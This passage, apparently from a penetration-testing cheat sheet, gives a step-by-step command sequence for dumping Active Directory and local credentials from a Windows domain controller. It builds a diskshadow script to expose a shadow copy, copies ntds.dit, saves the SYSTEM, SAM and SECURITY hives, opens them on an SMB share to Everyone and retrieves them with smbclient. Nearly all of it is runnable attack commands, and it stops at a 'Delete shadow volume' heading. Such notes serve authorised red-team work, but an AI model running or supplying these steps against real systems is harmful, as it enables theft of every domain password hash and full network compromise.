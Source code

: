 


## NTDS + SAM

Locate `diskshadow.exe`:

```
cmd /c where /R C:\ diskshadow.exe
```

Create shadow volume:

```
powershell -c "Add-Content add_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content add_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content add_vol.txt 'set verbose on'"
powershell -c "Add-Content add_vol.txt 'begin backup'"
powershell -c "Add-Content add_vol.txt 'add volume c: alias DCROOT'"
powershell -c "Add-Content add_vol.txt 'create'"
powershell -c "Add-Content add_vol.txt 'expose %DCROOT% w:'"
powershell -c "Add-Content add_vol.txt 'end backup'"
cmd /c diskshadow.exe /s add_vol.txt
```

```
// add_vol.txt
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
begin backup
add volume c: alias DCROOT
create
expose %DCROOT% w:
end backup
```

Exfiltrate over SMB:

```
mkdir C:\smb_pentest
copy w:\Windows\NTDS\ntds.dit C:\smb_pentest\ntds.dit
cmd /c reg.exe save hklm\system C:\smb_pentest\system.hive
cmd /c reg.exe save hklm\sam C:\smb_pentest\sam.hive
cmd /c reg.exe save hklm\security C:\smb_pentest\security.hive
cmd /c net share pentest=c:\smb_pentest /GRANT:"Everyone,FULL"

$ smbclient.py 'snovvcrash:Passw0rd!@127.0.0.1'
> use pentest
> get ntds.dit
> get system.hive
> get sam.hive
> get security.hive
```

Delete shadow volume:
